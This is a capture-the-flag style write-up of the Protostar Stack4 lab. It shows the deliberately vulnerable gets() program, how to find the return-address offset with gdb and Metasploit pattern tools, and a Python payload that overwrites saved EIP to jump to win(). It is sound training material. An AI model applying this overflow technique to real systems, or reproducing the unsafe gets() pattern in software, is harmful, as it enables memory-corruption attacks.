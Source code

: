 # Protostar - Stack4
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack4__
* About
  Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

  This level is at /opt/protostar/bin/stack4

  Hints
    * A variety of introductory papers into buffer overflows may help.
    * gdb lets you do "run < input"
    * EIP is not directly after the end of buffer, compiler padding can also increase the size.

* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}

```
   
   For this challenge, we have to overflow the buffer and EBP and then override return address with the address of win(). 

   Let's find the address of win()
```
user@protostar:~$ objdump -d /opt/protostar/bin/stack4 | grep win
080483f4 <win>:
```

  We've got the address of win() at 0x080483f4 so we have to reverse it because of little endien >> **\xf4\x83\x04\x08**

  Then we must calculate the exact position of our return address, by the way the compiler may pad the code so the buffer may be added by 4 or 8 bytes.

  The buffer 64 bytes, EBP 4 bytes, guessing padding 8 bytes so the payload should be
  
  > python -c 'print("A"*(64+4+8) + "\xf4\x83\x04\x08")' | /opt/protostar/bin/stack4

  * In theory after buffer 64 bytes followed by 4 bytes EBP then we can overwrite the next 4 bytes EIP but in practical the compiler do something with the stack and not align stack in expected way so we have to add more bytes to find the correct EIP position

  * We can find the exact position of EIP by using pattern_create.rb in Kali2.0
```
root@BOEING:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:~$ gdb /opt/protostar/bin/stack4 
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack4 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

root@BOEING:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
[*] Exact match at offset 76

<in protostar>
user@protostar:~$ python -c 'print("A"*(76) + "\xf4\x83\x04\x08")' | /opt/protostar/bin/stack4
code flow successfully changed
```

### _Solution_
```
user@protostar:~$ python -c 'print("A"*(64+4+8) + "\xf4\x83\x04\x08")' | /opt/protostar/bin/stack4
code flow successfully changed
```
or 
```
user@protostar:~$ python -c 'print("A"*(76) + "\xf4\x83\x04\x08")' | /opt/protostar/bin/stack4
code flow successfully changed
```